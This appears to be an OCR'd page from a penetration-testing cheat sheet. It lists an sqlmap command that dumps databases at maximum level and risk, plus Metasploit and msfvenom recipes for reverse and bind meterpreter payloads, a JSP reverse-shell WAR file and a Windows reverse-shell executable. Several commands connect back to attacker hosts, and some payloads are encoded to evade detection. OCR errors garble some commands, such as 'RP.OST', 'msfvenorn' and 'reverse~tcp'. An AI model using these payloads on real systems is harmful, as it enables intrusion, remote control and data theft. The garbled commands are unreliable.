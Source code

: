 ```text
sqlmap -r json --tamper=charunicodeescape --dump --level=5 --risk=3 --dbs --columns
```

## msf


### Creating meterpreter payload \(for Linux: -t file -o callback\)

```text
./msfpayload windows/meterpreter/reverse tcp LHOST=ip LPORT=port R |
./msfencode -t exe -o callback.exe -e x86/shikata_ga nai -c 5
```

### Create payload with bound meterpreter

```text
./msfpayload windows/meterpreter/bind_tcp RP.OST=ip LPORT=port X
cb.exe
```

### Creating a Java reverse shell

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=9999 -f WAR > exploit.war
```

### Creating a reverse shell for Windows with msfvenom


```msfvenom -p windows/shell_reverse_tcp lhost=ip lport=port -f exe --platform windows >reverse.exe```

### Generate encoded payload using msfvenom

```text
./msfvenorn --payload windows/meterpreter/reverse~tcp --format exe
template calc.exe -k --encoder x86/shikata_ga_nai -i 5 LHOST=1.1.1.1
LPORT=443 callback.exe
```

### Start database msf \(bt5=mysql,kali=postgresql\)

```text
/etc/rc.d/rc.mysqld start
msf db_create root:pass@localhost/metasploit
msf load db mysql
msf db connect root:pass@localhost/metasploit
msf db=import nmap.xml

--- Kali ---
# service postgresql start
# service metasploit start
```

